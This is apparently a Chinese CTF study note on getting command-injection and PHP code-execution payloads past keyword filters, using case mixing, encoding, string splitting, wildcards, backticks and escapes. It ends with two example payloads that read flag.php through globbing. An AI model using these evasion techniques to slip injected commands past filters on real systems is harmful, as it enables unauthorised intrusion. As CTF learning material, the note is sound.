



# 大小写绕过

某些过滤规则对大小写不敏感

可以通过大小写混合来绕过过滤

如：

system

可以尝试SysTEm

SYSTEM等绕过


# 编码绕过

编码输入，使其在执行时解码为原始内容

URL编码

- 过滤exec

- %65xec（e 的 ASCII 是 65）

Unicode编码

- 过滤system

- \u0073ystem（s 的 Unicode 是 \u0073）

HEX编码

- 过滤cat

- \x63\x61\x74


# 使用字符串分隔和拼接

将关键字分解为多个部分拼接，避免被完整过滤

PHP：

过滤system

绕过：

sy"."stem

或

sy${"stem"}


# 使用*代替字符串

如过滤flag

可以使用fl*

 

 


# 使用''分隔

如过滤flag

fl''ag


# 利用反引号执行命令

如

```
echo `cat fl*`
```

将命令执行的结果返回作为输出

cat fl*的输出结果将作为参数传递给echo


# 利用\

\绕过

如过滤cat

可以使用

```
c\at
```


# ?匹配字符

?匹配字符

如过滤flag

要读取flag.php

可以使用

```
????.php
```

 

 


# 例题

## 1




构造payload：

```
?c=/bin/ca?${IFS}????.???
```


/bin/ca?匹配/bin/cat

????.???匹配flag.php


## 2



过滤了字母
尝试使用/bin/base64
构造payload：

```
?c=/???/????64 ????.???
```

